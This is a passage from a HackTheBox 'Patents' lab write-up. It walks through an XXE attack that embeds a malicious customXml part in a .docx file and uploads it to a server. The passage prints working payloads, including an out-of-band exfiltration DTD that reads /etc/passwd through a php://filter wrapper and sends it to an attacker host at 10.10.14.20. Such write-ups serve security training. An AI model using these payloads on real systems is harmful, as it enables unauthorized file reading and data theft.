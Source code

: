 We see many ways to make it, for example [this](https://blogs.sap.com/2017/04/24/openxml-in-word-processing-custom-xml-part-mapping-flat-data/)

I just added a folder called `customXml` with a file `item1.xml` in it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-24-HackTheBox-Patents/2021-10-24-HackTheBox-Patents%2009:38:08.png)

The item1.xml is a simple xxe payload

```xml
<?xml version="1.0" ?>
<!DOCTYPE xxe [
<!ENTITY % ext SYSTEM "http://10.10.14.20/test">
  %ext;
]>
<xxe></xxe>
```

We zip it again

```sh
zip -r ../xxe.docx *
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-24-HackTheBox-Patents/2021-10-24-HackTheBox-Patents%2009:39:19.png)

And we upload to the server with a python web server opened on port 80

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-24-HackTheBox-Patents/2021-10-24-HackTheBox-Patents%2008:25:02.png)

And it reaches our box

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-24-HackTheBox-Patents/2021-10-24-HackTheBox-Patents%2008:24:56.png)

## File Read Via XEE

What I usually do when I'm exploring XEE is the hability to read files in this vuln. I tried many kind of simple payloads to get the files read on the server, but no one worked well

Se tudo der certo, o parser deve vir buscar na minha Kali o wrapper.dtd. Será criada a entitidade, o %start vai ser modificado com <![CDATA[]]>, o %file com o tomcat-users.xml e o %end com o >]], que fecha o CDATA.

If everything goes ok, the parser shold come to my Kali box and get the wrapper.dtd. Then it'll create the entity

We create a wrapper file. Then the server could come to me and get this file, then process the request I got from the file.

wrapper.dtd
```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % file "<!ENTITY exfil SYSTEM 'http://10.10.14.20/DATA?%data;'>">
```

file1.xml
```xml
<?xml version="1.0" ?>
<!DOCTYPE xxe [
<!ENTITY % ext SYSTEM "http://10.10.14.20/wrapper.dtd">
  %ext;
  %file;
]>
<xxe>&exfil;</xxe>
```
